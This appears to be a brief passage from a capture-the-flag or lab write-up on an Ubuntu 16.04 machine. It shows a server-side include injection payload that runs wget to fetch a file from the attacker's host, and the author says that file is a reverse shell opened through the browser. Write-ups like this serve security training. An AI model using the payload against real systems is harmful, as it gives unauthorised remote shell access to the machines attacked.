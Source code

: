 use explot : 


	<!--#EXEC cmd="wget http://192.168.187.1/lol.php" -->


where lol.php is a reverse shell;

activate rev shell by opening http://192.168.187.1/lol.php in browser, get reverse shell:

the machine is ubuntu 16.04 LTS , authour of challenge did not make a goal to root machine.
